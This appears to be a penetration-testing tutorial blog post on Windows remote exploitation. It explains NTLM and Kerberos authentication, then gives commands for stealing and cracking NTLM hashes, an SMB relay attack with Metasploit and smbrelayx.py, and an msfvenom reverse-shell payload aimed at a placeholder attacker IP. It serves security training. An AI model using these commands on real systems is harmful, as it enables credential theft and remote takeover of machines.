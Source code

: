 ```yaml
---
layout: post
published: true
title: Windows Exploitation 11.2
tags:
  - PWP
  - Intermediate
  - Windows Exploitation
comments: true
---
```

## Windows Remote Exploitation


## Introduction


**_In this blog post, we will learn the Windows Remote Exploitation Techniques and Approaches to engage with a target.
We will also look for examples and usage of tools._**

_Some Approaches we have already discussed in Linux exploitation modules_


**Lower Hanging Fruits**

**We have discussed Low Hanging Fruits Approaches in Linux Exploitation module, the approach is also same for windows, please have a look on that [blog post](https://mrw0r57.github.io/2020-05-30-linux-exploitation-9-1/) .**



**Remote Exploitation of Windows Network**

The exploitation process in which attackers exploit's listening services on the target network and tries to get access to the target system.




**Windows Authentication**

Windows uses two types of authentication protocols for clients and server authentication, NTLM and Kerberos.


**NTLM**

NTLM(New Technology LAN Manager) is the authentication protocol used on networks that include systems running the Windows operating system and on stand-alone systems.

**How NTLM Works?**

1.  A user accesses a client computer and provides a domain name, user name, and password. The client computes a cryptographic hash of the password and discards the actual password.

2.  The client sends the username to the server to authenticate itself.

3.  Then the server generates a 16-byte random number, called a challenge or nonce, and sends it to the requested client.

4.  After that client encrypts this challenge with the hash of the user's password and sends the response of the result to the server. 

5.  Then the server sends, user name, challenge sent to the client, the response received from the client, to the domain controller(Authentication Server).

6.  The domain controller uses the user name to retrieve the hash of the user's password from the SAM (Security Account Manager) database. It uses this password hash to encrypt the challenge.

7.  Then DC compares the encrypted challenge it computed (in step 6) to the response computed by the client (in step 4). If they are identical, authentication is successful for the client system.

[Check For More](https://en.wikipedia.org/wiki/NT_LAN_Manager#NTLMv2)
[LM/NT hashes](http://www.adshotgyan.com/2012/02/lm-hash-and-nt-hash.html)

**Kerberos**

Windows domains use Kerberos as the underlying protocol for SSO. A user can log on to the domain at the beginning of the workday, and the system uses the same credentials to access any resources in the domain.
Kerberos is also used by Unix systems nowadays


**How Kerberos Works?**

1.  A user accesses a client computer sends an authentication request to the Kerberos server including user login ID.

2.  The authentication server reply including encrypted symmetric key and time-stamped ticket-granting ticket (TGT)

3.  Then the client sends a network authentication request including TGT and name of the target server, for example, MS Active Directory.

4.  After that Kerberos server reply including session ticket for use with the target server

5.  The client presents a time-stamped session ticket to the target server as the authentication

6.  Finally, the target server provides authentication back to the client.

Authentication Successful!!

[Check For More](https://en.wikipedia.org/wiki/Kerberos_%28protocol%29)

**[Also have a look at Windows Security Identifiers (SID)](https://support.microsoft.com/en-us/help/243330/well-known-security-identifiers-in-windows-operating-systems)** Important.



**Some NTLM Stealing Metasploit Modules** 


auxiliary/admin/mssql/mssql_ntlm_stealer

``
auxiliary/admin/mssql/mssql_ntlm_stealer
``

Oracle SMB Relay Code Execution

``
auxiliary/admin/oracle/ora_ntlm_stealer
``

Host Information Enumeration via NTLM Authentication

``
auxiliary/scanner/http/ntlm_info_enumeration
``

SMTP NTLM Domain Extraction

``
auxiliary/scanner/smtp/smtp_ntlm_domain 
``

**WinRM Login Utility**

This module attempts to authenticate to a WinRM service.

``
auxiliary/scanner/winrm/winrm_login
``

**To crack NTLM hash **

There are many techniques to crack NTLM hash


[John Hashes Formats] (http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)

``
john --format=netlm hashpwd_netntlm
``

**Using Rainbow Tables To Crack Hash**

[rcracki_mt](https://github.com/foreni-packages/rcracki_mt)



Download rainbow tables

[http://project-rainbowcrack.com/table.htm]
[http://ophcrack.sourceforge.net/tables.php]

``
rcracki_mt -h 1f548398f0f49ea1 -t 4 *.rti
``

* -h: It is used to specify the first 8-bytes of the LMHASH
* -t: It is the number of threads to use
* *.rti: It is the path of the downloaded rainbow tables


** Suppose if you found only half of the password**


In ''ls /usr/share/metasploit-framework/tools/password''

There is a tool also which can also use for this purpose known as ruby halflm_second.rb.

``
ruby halflm_second.rb -n 1f548398f0f49ea18e2f0dcb9562b75eaa32e75aebf1d69c -p HALFPSWD
``

To convert  the result into case sensitive password

``
perl netntlm.pl -file /root/hashpwd_netntlm -seed FULLHALFPSWD
``



**SMBRelay Attack**

Its a kind of Man in The Middle attack in which attacker relay SMB authentication requests to another host, gaining access to an authenticated SMB session if successful.


Metasploit Module for this purpose

```
msfconsole
use exploit windows/smb/smb_relay
msf5 exploit(windows/smb/smb_relay) > info
```
**Read about this module by info command on Metasploit**


Another Exploit for SMBRelay, [Click Here](https://www.exploit-db.com/exploits/7125)

**You can also use Impacket's smbrelayx.py for this purpose.**

**smbrelayx.py:** Exploit for CVE-2015-0005 using an SMB Relay Attack. If the target system is enforcing signing and a machine account was provided, the module will try to gather the SMB session key through NETLOGON.

Using Msfvenom create windows reverse TCP .exe payload in order to work with smbrelayx.py

``
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackerIP> LPORT=<Port> -f exe -o hacker.exe
``

Start Metasploit Multi/handler in Attacker Machine
``
set exploit/multi/handler
``
Set the options and use smbrelayx.py


``
smbrelayx.py -h <TargetIP> -e /home/hacker.exe
``


To check and use other windows vulnerability's exploit

Run command below in msfconsole

``
show exploits windows
``



## Conclusion

**_We have discussed basic exploitation of windows systems, and we have already discussed some approaches in previous phases, 
Exploitation all depends on the previous phases of pentesting_** 
